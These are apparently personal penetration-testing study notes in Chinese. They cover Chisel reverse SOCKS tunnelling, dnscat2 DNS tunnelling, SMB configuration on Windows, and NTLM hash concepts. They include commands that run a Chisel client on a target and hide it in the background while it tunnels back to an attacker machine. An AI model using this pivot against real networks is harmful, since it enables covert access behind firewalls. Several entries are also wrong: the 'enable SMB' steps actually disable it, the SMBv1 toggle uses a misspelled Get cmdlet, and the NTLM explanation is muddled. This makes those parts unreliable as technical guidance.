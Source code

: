 * 19.1.2
Chisel工具跨平台，体积小，上传方便（只上传一个本体exe文件）

sudo cp $(which chisel) /var/www/html/

kali~$ chisel server --port 8080 --reverse

target~$ /tmp/chisel client 192.168.2.28:8080 R:socks > /dev/null 2>&1 &
R： 创建reverse 隧道
> /dev/null 2>&1 & 将命令强制后台执行

ss -ntplu 

ssh -o
ncat工具


* 19.2.1
DNS隧道
DNS原理
三种DNS记录种类

* 19.2.2
dnscat2工具
一般使用DNS隧道会很慢，应为dnscat2客户端和服务端确认4次


# 2023/10/4

windows10/7 开启smb服务
在“控制面板”中，选择“程序和功能”。
在“控制面板主页”下，选择“打开或关闭 Windows 功能”打开“Windows 功能”框。
在“Windows 功能”框中，向下滚动列表，清除“SMB 1.0/CIFS 文件共享支持”对应的复选框，然后选择“确定”。
在 Windows 应用更改后，在确认页上选择“立即重启”。


查看smb协议状态
Get-SmbServerConfiguration
启用Smbv1协议
Get-SmbServerConfuguration -EnableSMB1Protocol $true
关闭Smbv1协议
Get-SmbServerConfuguration -EnableSMB1Protocol $false

net use \\192.168.2.10\share   远程连接共享目录（输入账号密码）
net use \\192.168.2.10\share /delete   关闭共享连接

# 2023/10/5

NTLM概念：
SSPI：安全服务接口，规定了一些类安全验证等服务接口，但是没有实现
SSP：安全服务提供者，实现了SSPI对应的安全服务等功能，例如NTLM SSP ，或者Kerberos SSP等

NTLM加密方式：
密码明文--->（转为16进制）--->（使用unicode编码）--->（标准MD4加密）---> 密文

登录计算机进程winlogon.exe输入用户密码，将密码传输给lsass.exe进程，此进程会将密码进行加密变成NTML hash与SAM比较
